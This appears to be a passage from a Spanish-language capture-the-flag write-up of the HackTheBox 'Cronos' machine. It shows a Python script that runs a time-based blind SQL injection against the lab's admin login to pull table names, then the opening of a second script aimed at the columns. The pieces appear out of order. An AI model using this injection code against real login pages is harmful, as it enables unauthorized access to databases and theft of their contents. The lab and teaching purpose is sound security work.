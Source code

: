 ```python

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Table")

    table_name = ""

    for table in range(0,4):
        for position in range(1, 10):
            for character in s:
                p1.status("Probando con el caracter %c en la posicion %d de la tabla numero " % (character, position, table))
                post_data = {
                    'username': "admin' and if(substr((select table_name from information_schema.tables where table_schema='admin' limit %d,1),%d,1)='%c',sleep(5),1)-- -" % (table, position, character),
                    'password': 'admin'
                }

                time_start = time.time()
                r = requests.post(login_url, data=post_data)
                time_end = time.time()

                if time_end - time_start > 5:
                    table_name += character
                    p2.status(table_name)
                    break
            break
        table_name += " - "

if __name__ == '__main__':

    makeRequest()
```

Ahora que sabemos que hay una tabla 
```bash
 users 
```
, miramos las columnas.

```python
#!/usr/bin/python3
#coding: utf-8

import requests
import signal
import pdb
import sys
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

login_url = "http://admin.cronos.htb/index.php"
```